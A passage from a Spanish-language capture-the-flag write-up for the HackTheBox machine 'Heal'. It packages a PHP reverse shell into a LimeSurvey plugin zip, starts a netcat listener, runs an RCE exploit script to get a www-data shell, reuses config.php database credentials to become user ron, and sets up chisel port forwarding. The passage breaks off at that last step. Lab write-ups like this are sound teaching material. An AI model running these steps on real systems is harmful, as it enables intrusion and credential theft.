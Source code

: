 ```sh
zip exploit.zip config.xml php-rev.php
```

Por último, tendremos que modificar el exploit para indicarle la ruta de nuestro archivo zip a subir, en mi caso **/home/badtry/Machines/content/limesurvey-RCE/exploit.zip**

![Pic]({{ '/assets/img/heal/16pic.png' | relative_url }}){: .center-image }

Nos ponemos en escucha con netcat.

```sh
nc -lvnp 443
```

Y ejecutamos el exploit con los siguientes parámetros:

```sh
python3 exploit.py http://take-survey.heal.htb ralph 14******** 443
```

![Pic]({{ '/assets/img/heal/17pic.png' | relative_url }}){: .center-image }

Como se muestra en la imagen, obtenemos una consola con el usuario www-data.

## Escalada de Privilegios

Enumerando los archivos de configuración de LimeSurvey encontramos credenciales de acceso a la base de datos dentro del archivo **config.php**. Si tratamos de acceder a la base de datos **PostgreSQL** no encontraremos nada útil, sin embargo, podemos convertirnos en el usuario **Ron** con ellas.

```sh
su ron
password: *********
```

Tras buscar formas de convertirnos en root, como por ejemplo: abusar de permisos SUID, capabilities, permisos mal configurados, etc... Encontramos que hay servicios corriendo en local.

```sh
netstat -tunlp
```

![Pic]({{ '/assets/img/heal/18pic.png' | relative_url }}){: .center-image }

Vemos que hay varios puertos en uso, para visualizar lo que está corriendo en estos puertos de forma más cómoda, podemos usar [chisel](https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz) para traer esos puertos a nuestra máquina, "port forwarding".

Para acontecer esto, tendremos que transferir el binario de chisel a la otra máquina, para ello podemos utilizar python.

Desde nuestra máquina:

```sh
python3 -m http.server 80
```

Desde la máquina víctima:
